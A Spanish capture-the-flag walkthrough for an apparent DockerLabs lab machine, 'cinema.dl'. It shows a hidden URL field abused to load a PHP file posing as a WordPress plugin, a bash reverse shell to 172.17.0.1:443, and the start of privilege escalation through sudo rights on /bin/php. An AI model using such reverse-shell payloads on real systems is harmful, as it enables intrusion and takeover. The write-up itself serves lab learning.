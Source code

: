 Al entrar para reservar la ultima pelicula y hacer CTRL + U :

```bash
                    <!-- Campo oculto para URL maliciosa -->
                    <input type="hidden" id="problem_url" name="problem_url" value="">
```

# EXPLOTACION

   ```bash

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

```

Lo que vamos a hacer es crear un servidor (python3 -m http.server) y ejecutar el reservation.php con ese parámetro.
Desde burpsuite parece que no funciona, pero si pegamos esta URL si :

```bash
http://cinema.dl/reservation.php?problem_url=http://172.17.0.1:8000/wp.php
```

Vamos a ver donde se puede estar subiendo, tras mirarlo en un script, se sube a **/andrewgarfield/**

YA ESTAMOS COMO WWW-DATA.

# ESCALADA PRIVILEGIOS

Vamos a ver si tenemos permisos SUDO:

```bash
www-data@dockerlabs:/var/www/cinema.dl/andrewgarfield$ sudo -l
Matching Defaults entries for www-data on dockerlabs:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on dockerlabs:
    (boss) NOPASSWD: /bin/php

```
